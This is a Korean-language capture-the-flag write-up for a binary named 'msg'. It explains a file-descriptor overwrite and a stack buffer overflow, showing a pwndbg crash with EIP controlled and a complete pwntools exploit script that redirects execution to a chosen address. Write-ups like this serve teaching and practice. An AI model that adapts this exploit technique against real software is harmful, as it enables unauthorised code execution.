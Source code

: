 # MSG Write-up

### 취약점1

![img](disasm.png)

취약점이 발생하는 함수입니다. 사용자의 입력으로 fd를 조작할 수 있습니다. (코드를 분석해보면 알겠지만 파일을 처음 4바이트는 메시지의 길이를 의미하게 됩니다.)

### 취약점2

```
root@inj3ct:~/tmp/sctf# python -c 'print "A"*276+"B"*4' > out

pwndbg> r
Starting program: /root/tmp/sctf/msg_patched 
1. New message
2. Change message
3. Load message
4. Exit
3
Input msg ID : 
out
msg: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[──────────────────────────────────REGISTERS───────────────────────────────────]
*EAX  0xffffffff
 EBX  0x0
*ECX  0xf7ffb940 ◂— 0xf7ffb940
*EDX  0xffffffc0
*EDI  0xf7fc8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*ESI  0xf7fc8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*EBP  0x41414141 ('AAAA')
*ESP  0xffffd650 ◂— 0xa /* '\n' */
*EIP  0x42424242 ('BBBB')
[────────────────────────────────────DISASM────────────────────────────────────]
Invalid address 0x42424242
```

위처럼 오버플로우 버그가 발생합니다.

### 공격 시나리오

1. dummy를 252(0x108-0xC) byte만큼 넣은 후, fd 값을 2(stderr)로 덮어 씌운다.
2. 뒤에서 stderr이 close되서 다음부터 파일을 열게 되면 fd의 값은 2부터 쌓인다.
3. s에 특수문자가 포함되어 있다면 새롭게 열린 파일에 "This is ~~~ : [input]\n"이 쓰인다. 
4. 1, 2, 3번을 이용하여 다음과 같이 EXPLOIT 코드를 작성한다.

```python
from pwn import *

p = process("./msg")
print p.recv()
p.sendline("1")
print p.recv()
p.sendline("a"*252+p32(0x00000002))
print p.recv()
p.sendline("1")
print p.recvuntil("Msg ID : ")
msgid = p.recvline()
print msgid
print p.recv()
ret = p32(0x08048aa4)
p.sendline(" !"+"a"*(276-2-len('This string is invalid string... : '))+ret)
# return to sub_8048aa4() ; maybe 'msg : ' is printed
print p.recv()
p.sendline("3")
print p.recv()
p.sendline(msgid)
p.interactive()
```

